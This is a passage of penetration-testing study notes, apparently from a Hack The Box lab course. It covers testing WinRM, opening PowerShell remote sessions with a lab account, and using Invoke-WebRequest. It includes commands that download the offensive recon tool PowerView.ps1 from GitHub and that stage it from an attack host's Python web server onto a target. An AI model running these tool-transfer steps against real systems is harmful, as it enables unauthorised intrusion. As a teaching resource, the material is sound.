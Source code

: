 						- Configure TrustedHosts to include just IP addresses/hostnames that will be used for remote management
						- Configure HTTPS for transport
						- Join Windows systems to an Active Directory Domain Environment and Enforce Kerberos Authentication
			- **Testing PowerShell Remote Access**
				- Unauthenticated Access
					- `Test-WSMan -ComputerName "10.129.224.248"`
						- Running this cmdlet sends a request that checks if the WinRM service is running. Keep in mind that this is unauthenticated, so no credentials are used, which is why no `OS` version is detected. This shows us that the WinRM service is running on the target.
				- Authenticated Access
					- `Test-WSMan -ComputerName "10.129.224.248" -Authentication Negotiate`
						- We can run the same command with the option `-Authentication Negotiate` to test if WinRM is authenticated, and we will receive the OS version (`10.0.11764`).
				- **Establishing a PowerShell Session from Windows**
					- `Enter-PSSession -ComputerName 10.129.224.248 -Credential htb-student -Authentication Negotiate`
				- **Establishing a PowerShell Session from Linux**
					- `Enter-PSSession -ComputerName 10.129.224.248 -Credential htb-student -Authentication Negotiate`
- ## Interacting With The Web (PowerShell)
	- **How Do We Interact With The Web Using PowerShell?**
		- When it comes to interacting with the web via PowerShell, the [Invoke-WebRequest](https://learn.microsoft.com/bs-latn-ba/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-5.1) cmdlet is our champion. The Invoke-WebRequest cmdlet is aliased to `wget`, `iwr` and `curl`. We can use it to: 
			- perform basic HTTP/HTTPS requests (like `GET` and `POST`)
			- parse through HTML pages
			- download files
			- authenticate
			- maintain a session with a site
		- `Get-Help Invoke-Webrequest`
		- **A Simple Web Request**
			- **Get Request with Invoke-WebRequest**
				- `Invoke-WebRequest -Uri "https://web.ics.purdue.edu/~gchopra/class/public/pages/webdesign/05_simple.html" -Method GET | Get-Member`
				- Notice all the different properties this site has. We can now filter on those if we wish to show only a portion of the site.
			- **Filtering Incoming Content**
				- `Invoke-WebRequest -Uri "https://web.ics.purdue.edu/~gchopra/class/public/pages/webdesign/05_simple.html" -Method GET | fl Images`
				- Now we have an easy-to-read list of the images included in the website, and we can download them if we want. This is a super easy way only to get the information we wish to see.
			- **Raw Content**
				- `Invoke-WebRequest -Uri "https://web.ics.purdue.edu/~gchopra/class/public/pages/webdesign/05_simple.html" -Method GET | fl RawContent`
		- **Downloading Files using PowerShell**
			- **Downloading PowerView.ps1 from GitHub**
				- `Invoke-WebRequest -Uri "https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1" -OutFile "C:\PowerView.ps1"`
				- Downloads a powerful tool used by Penetration Testers
			- **Example Path to Bring Tools Into an Environment**
				- If we already had PowerView.ps1 stored on our `attack host` we could use a simple Python web server to host PowerView.ps1 and download it from the target. From the attack host, we want to confirm that the file is already present or we need to download it. In this example, we can assume it is already on the attack host for demonstration purposes:
					- **Using ls to View the File (Attack Host)**
						- `ls`
					- **Starting the Python Web Server (Attack Host)**
						- `python3 -m http.server 8000`
					- **Downloading PowerView.ps1 from Web Server (From Attack Host to Target Host)**
						- `Invoke-WebRequest -Uri "http://10.10.14.169:8000/PowerView.ps1" -OutFile "C:\PowerView.ps1"`
	- So what happens if we are restricted from using `Invoke-WebRequest` for some reason?
		- Windows provides several different methods to interact with web clients: